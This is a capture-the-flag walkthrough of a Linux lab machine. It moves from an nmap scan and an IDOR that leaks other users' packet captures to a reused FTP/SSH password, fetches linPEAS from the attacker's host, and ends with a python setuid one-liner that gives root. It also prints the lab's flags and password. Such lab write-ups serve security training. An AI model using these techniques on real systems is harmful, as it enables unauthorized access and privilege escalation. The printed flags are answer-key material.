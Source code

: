 ----------
*Linux* - Running an HTTP server that performs administrative functions including network captures. Improper controls result in IDOR giving access to another user's capture. It contains plaintext credentials and can be used to gain foothold. A Linux capability then is leveraged to escalate to root.

-----------------------
## Task 1

How many TCP ports are open?

## Solution 1

Run the scan via the Nmap:

```sh
nmap -sV 10.10.10.245
```

And this shows the open TCP ports, which in our case is three.

```sh
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Gunicorn
```

-----------
## Task 2

After running a "Security Snapshot", the browser is redirected to a path of the format `/[something]/[id]`, where `[id]` represents the id number of the scan. What is the `[something]`?

## Solution 2

On the page, there is a functionality "Security Snapshot", when we click on that one, it goes to a Security Dashboard whose URL is `/data/40`, so the answer to this is `data`.

------------
## Task 3

Are you able to get to other users' scans?

## Solution 3

As we saw on the previous task, the URL was `/data/40` which generates a `.pcap` security report, and if we open that with `Wireshark` we see that its just that.

The important point here is that in the URL there is an ID, which may suggest that there may be and `IDOR` vulnerability, so let's test it by giving some other number.

I gave some random numbers, such as 7, and downloaded the report, I see that it's the same source IP address, so it's ours.

But, when I gave the 0 as ID, it produced much more results, and there are different IP-s which are not mine, so yes, I can see other users scans, utilizing the IDOR vulenrability.

-------------
## Task 4

What is the ID of the PCAP file that contains sensitive data?

##  Solution 4

As was shown in the previous task, it is 0.

-----------

## Task 5

Which application layer protocol in the pcap file can the sensitive data be found in?

## Solution 5

On the Wireshark from the `0.pcap` we see sensitive information such as `username = nathan` and `password = Buck3tH4TF0RM3!` on the `ftp` protocol, so the answer here is `ftp`.

-------------

## Task 6

We've managed to collect nathan's FTP password. On what other service does this password work?

## Solution 6

From the **Task 1** we saw an `ssh` service, so we try to connect to that with the found credentials.

```sh
ssh nathan@10.10.10.245
```

And when provided with the password it connected to it, so the answer is `ssh`.

----------

## Task 7

Submit the flag located in the nathan user's home directory.

## Solution 7

We now are logged in on the `/home/nathan` directory, and we list the files:

```sh
ls -l
total 820
-rwxrwxr-x 1 nathan nathan 828287 Apr  2  2023 linpeas.sh
drwxr-xr-x 3 nathan nathan   4096 Mar 16 11:24 snap
-r-------- 1 nathan nathan     33 Mar 16 03:12 user.txt
```

I open the `user.txt`:

```sh
cat user.txt
9f961b671cb52c104970990247004b94
```

And this is the flag.

----------

## Task 8

What is the full path to the binary on this machine has special capabilities that can be abused to obtain root privileges?

## Solution 8

Let's download the `linPEAS` a Linux privilege escalation tool.

```sh
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

But, this didn't work, as it was unable to resolve the host address, so I will download this to my machine, and then download it from the target machine.

```sh
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

Then start a server, such as the one with python:

```sh
python3 -m http.server
```

Now, download it to the target machine:

```sh
wget http://10.10.14.187:8000/linpeas.sh
```

Add the execution permissions:

```sh
chmod +X linpeas.sh
```

And from the results we see a highlighted file that is a *file with capabilities*:

```sh
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

The answer to this task is `/usr/bin/python3.8`.

-----------

## Final Task

Submit the flag located in root's home directory.

## Solution

File with capabilities means that the binary has the `CAP_SETUID` capability set or it is executed by another binary with the capability set.

And being such, it can be used to manipulate the process UID and escalate privileges

This can be done by executing:

```sh
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Now I'm root:

```sh
whoami
root
```

Navigate to the root's home folder.

```sh
cd /root
```

There we have a `root.txt` file, which has the flag:

```sh
cat root.txt
a123e36a0476425550c6432f5d403cbe
```

Which is the final flag and solves the lab.

